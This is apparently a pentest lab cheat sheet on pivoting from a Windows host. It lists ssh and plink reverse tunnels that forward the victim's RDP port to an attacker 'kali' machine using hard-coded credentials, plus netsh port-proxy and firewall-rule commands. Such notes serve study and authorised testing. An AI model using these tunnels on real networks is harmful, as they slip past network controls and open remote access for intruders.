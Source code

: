 ssh.exe client on windows machine, remote port forwarding can be enabled using this client

ssh -N -R 9998 kali@192.168.118.4

### plink

C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.211
**cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7

### netsh


netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.242.64 connectport=22 connectaddress=10.4.242.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.242.64 localport=2222 action=allow

netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64

try with powershell
